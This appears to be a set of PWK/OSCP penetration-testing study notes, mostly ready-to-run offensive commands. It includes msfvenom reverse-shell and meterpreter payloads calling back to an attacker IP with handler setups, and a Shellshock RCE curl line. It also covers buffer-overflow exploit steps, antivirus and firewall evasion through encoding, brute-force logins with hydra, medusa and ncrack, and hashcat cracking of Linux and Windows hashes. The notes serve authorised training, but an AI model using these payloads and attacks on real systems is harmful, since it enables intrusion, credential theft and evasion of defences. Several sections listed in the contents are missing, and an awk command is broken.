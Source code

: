 # Offsec

Offsec PWK notes and frecuently used files.

<ol>
  <li><a href="#Scanning">Scanning and Enumeration</a></li>
  <li><a href="#Exploitation">Exploitation</a></li>
  <li><a href="#ExploitDevelopment">Exploit Development</a></li>
  <li><a href="#PasswordAttacks">Password Attacks</a></li>
  <li><a href="#ReverseShells">Reverse Shells</a></li>
  <li><a href="#PrivilegeEscalation">Privilege Escalation</a></li>
  <li><a href="#FileTransfers">File Transfers</a></li>
  <li><a href="#PostExploitation">Scanning and Enumeration</a></li>
  <li><a href="#PortForwarding">Port Forwarding</a></li>
  <li><a href="#WebAttacks">Web Attacks</a></li>
  <li><a href="#LessonsLearned">Lessons Learned</a></li>
</ol>

<br>

#Target IP: 1.1.1.1
<br>
#Local IP: 10.10.10.10 

<div id="Scanning"> <h3>1.Scanning and Enumeration</h3></div>

<h4> NMAP</h4>

nmap++ 1.1.1.1

<h4> SMB</h4>

nbtscan -r 1.1.1.1

enum4linux -USGPoi 1.1.1.1 >> SMB.txt

smbclient -L 1.1.1.1

showmount -e 1.1.1.1

<h4> SMTP </h4>

nmap -p 25 --script smtp-enum-users.nse,smtp-commands.nse 1.1.1.1

<h4> SNMP</h4>

snmpcheck -t 1.1.1.1 >> ENUM-SNMP.txt

snmpwalk -c public 1.1.1.1  -v 2c

onesixtyone -c public.txt -o snmp-onesixtyone.txt -dd 1.1.1.1 

<h4> HTTP</h4>

nikto -o nikto.html -Display V -nolookup -host 1.1.1.1  && firefox nikto.html

Dirbuster: Change to 50 req/s, no recursion, export simple list. 

dirb http://1.1.1.1 /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -l -o dirb.txt

<h4> SSH </h4>

msf > use auxiliary/scanner/ssh/ssh_enumusers

<div id="Exploitation"> <h3>2. Exploitation</h3></div>

<h4>MSF Venom Payload Generation</h4>

    msfvenom -p windows/shell_reverse_tcp -f asp -o shell.asp LHOST=10.10.10.10 LPORT=443

    use exploit/multi/handler
    set payload windows/shell/reverse_tcp
    set LHOST 10.10.10.10
    set LPORT 443
    run

    msfvenom -p windows/meterpreter_reverse_tcp -f exe -o metp.exe -e x86/shikata_ga_nai LHOST=10.10.10.10 LPORT=443

    msfconsole

    use exploit/multi/handler
    set payload windows/meterpreter_reverse_tcp
    set LHOST 10.10.10.10
    set LPORT 443
    run

<h4>Shellshock RCE</h4>

curl http://1.1.1.1/cgi-bin/admin.cgi -H"User-Agent:() { :; }; /bin/bash -c ifconfig “

<h4>Compiling .exe Files with mingw32</h4>

i586-mingw32msvc-gcc MS08-067.c -o MS08-067.exe  -lrpcrt4 -lws2_32 -lwsock32 -lmpr

<div id="ExploitDevelopment"> <h3>3. Exploit Development</h3></div>

<h4>1. Fuzz</h4>

./fuzzer.py 

<h4>2. Create a unique pattern and locate the offset for EIP </h4>

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700 

Debugger: write down value of EIP (e.g. 39694438)

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q 39694438

<h4>3. Update skeleton script to match new buffer size, pad with a different char (x42) 4 bytes to overwrite EIP. </h4>

<h4>4. Locate space for shell code (i.e add more “C”s ~400 bytes) 
</h4>

/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

<h4>5. Locate bad characters: append to skeleton script right after x42s, Immunity: ESP Follow in Dump </h4>


<h4>6. Find a return address (Typically JMP ESP - FFE4)</h4>

Criteria: 

    1. Does not contain bad characters
    2. Does not use DEP or ASLR 

Using Mona: 

!mona modules        
!mona find -s “\xff\xe4” -m slmfc.dll 
 
<h4>7. Update skeleton script to include Ret Address (little endian) right after the buffer </h4>

<h4>8. Update skeleton script to include NOPs for padding at the beggining of the shellcode</h4>

<h4>9. Generate shellcode and update skeleton script </h4>

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x09\x0a" 
    
<b> Bypassing AV and FW restrictions </b>

<h4>10. Use staged payloads </h4>

msfvenom -p windows/shell/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d"

msfconsole
use exploit/multi/handler
set PAYLOAD windows/shell/reverse_tcp
set LHOST 10.10.10.10
set LPORT 443

<h4>11. Use multiple iterations of the encoder </h4>

msfvenom -p windows/shell/reverse_tcp LHOST=10.10.10.10 LPORT=443  -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d" -i 10 

msfconsole
use exploit/multi/handler
set PAYLOAD windows/shell/reverse_tcp
set LHOST 10.10.10.10
set LPORT 443

<h4>12. Use a Reverse HTTPS Meterpreter </h4>

msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=443  -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d" -i 10 

msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.10.10.10
set LPORT 443

<h4>13. Try other ports common ports (53, 80) </h4>

<div id="DictionaryAttacks"> <h3>4. Dictionary Attacks</h3></div>

ncrack -vv --user rax -P wordlist.txt rdp://1.1.1.1

medusa -h 1.1.1.1 -u root -P /usr/share/wordlists/rockyou.txt -e ns -M ssh

hydra -l administrator -P wordlist.txt 1.1.1.1 ssh

hydra 1.1.1.1:80 http-form-post "/PHP/index.php:nickname=^USER^&password=^PASS^:bad password" -l garry -P /usr/share/wordlists/nmap.lst -t 10 -w 30 -o hydra-http-post-attack.txt

<h4> Password Generation with cewl and John </h4>

cewl http://1.1.1.1/index.html >> words.txt

john --wordlist=words.txt --rules --stdout >> wordlist.txt

<h4> Cracking Hashes - Linux </h4>

cat shadow.txt | awk -F':' '{print }' > hashes.txt

hashcat -m 500 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

hashcat -m 1800 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

<h4> Cracking Hashes - Windows </h4>

hashcat -m 1000 -a 0 -o output.txt --remove hashes.txt /usr/share/wordlists/rockyou.txt

